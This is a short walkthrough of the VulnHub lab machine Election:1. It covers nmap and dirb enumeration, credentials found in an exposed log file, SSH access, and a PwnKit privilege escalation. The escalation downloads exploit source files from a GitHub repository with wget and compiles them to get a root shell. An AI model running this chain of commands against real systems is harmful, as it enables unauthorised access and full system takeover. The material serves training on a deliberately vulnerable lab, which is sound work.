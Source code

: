 

# Election:1 Walkthrough 

**VulnHub Link:** [Election:1](https://www.vulnhub.com/entry/election-1,503/)
**Difficulty:** Easy
**Release Date:** 2 Jul 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

domain adding to /etc/hosts

http://<domain>/election/admin/logs/system.log ---> love user found and it's password found

shell opened with ssh ----> user flag captured

## 3.Post-Exploitation

pkexec version 0.105 ---> PwnKit vulnerability found

```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/exploit.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/evil-so.c
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
```
gaining root shell ---> root flag captured.
